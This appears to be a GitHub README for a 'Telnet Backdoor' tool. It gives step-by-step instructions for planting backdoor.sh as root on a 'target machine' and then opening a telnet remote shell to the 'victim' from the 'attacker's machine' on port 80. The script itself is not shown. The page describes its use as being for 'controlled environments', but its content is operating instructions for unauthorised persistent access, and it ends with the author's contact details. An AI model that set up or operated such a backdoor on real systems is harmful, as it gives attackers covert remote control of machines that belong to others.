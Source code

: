 # Telnet Backdoor  
`Simple backdoor setup using Telnet for remote shell access.`

## Features

### 1. Backdoor Script  
- Download and execute the script on the **target machine** with root privileges or `chmod +x` to ensure proper execution.

### 2. Telnet Connection  
- Connect to the victim machine using Telnet from the **attacker's machine**.

## About  
`This setup allows for a reverse shell-like connection using Telnet, suitable for basic backdoor access in controlled environments.`

### Usage  
**1. On the target machine:**  
- Download the script  
- Grant execution permission:  
  - `chmod +x backdoor.sh`  
- Run the script as root:  
  - `sudo ./backdoor.sh`

**2. On the attacker’s machine:**  
> Start Telnet session:
- `telnet`  
> Enable binary mode:  
- `toggle binary`  
> Connect to victim:  
- `open 192.xxx.xx.xxx 80`

[You should now be successfully connected to the victim machine.]\
```Note: The port can be changed by modifying the backdoor.sh source code.```

---

`Telegram: t.me/oghbnz | E-mail: rhashibur75@gmail.com`
